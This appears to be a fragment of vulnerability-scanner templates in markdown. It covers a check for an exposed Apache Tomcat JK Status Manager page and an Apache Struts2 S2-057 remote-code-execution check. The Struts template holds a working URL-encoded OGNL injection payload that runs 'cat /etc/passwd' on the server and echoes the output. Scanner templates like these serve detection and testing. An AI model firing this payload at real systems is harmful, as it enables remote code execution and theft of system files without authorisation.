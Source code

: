 - severity - high
- tags - cve,cve2018,apache,tomcat

## Requests

- Method - GET

### URL

- {{BaseURL}}/jkstatus
- {{BaseURL}}/jkstatus;

### Matchers

**Type - word**

- words
  1. JK Status Manager

**Type - status**

- status
  1. 200

---

# Apache Struts2 S2-057 - Remote Code Execution

## Description

- Apache Struts versions 2.3 to 2.3.34 and 2.5 to 2.5.16 suffer from possible remote code execution when alwaysSelectFullNamespace is true (either by user or a plugin like Convention Plugin) and then: results are used with no namespace and in same time, its upper package have no or wildcard namespace and similar to results, same possibility when using url tag which doesn''t have value and action set and in same time, its upper package have no or wildcard namespace.

- severity - high
- tags - cve,cve2018,apache,rce,struts,kev

## Requests

- Method - GET

### URL

- {{BaseURL}}/%24%7B%28%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D@java.lang.Runtime@getRuntime%28%29.exec%28%27cat%20/etc/passwd%27%29.getInputStream%28%29%2C%23b%3Dnew%20java.io.InputStreamReader%28%23a%29%2C%23c%3Dnew%20%20java.io.BufferedReader%28%23b%29%2C%23d%3Dnew%20char%5B51020%5D%2C%23c.read%28%23d%29%2C%23sbtest%3D@org.apache.struts2.ServletActionContext@getResponse%28%29.getWriter%28%29%2C%23sbtest.println%28%23d%29%2C%23sbtest.close%28%29%29%7D/actionChain1.action
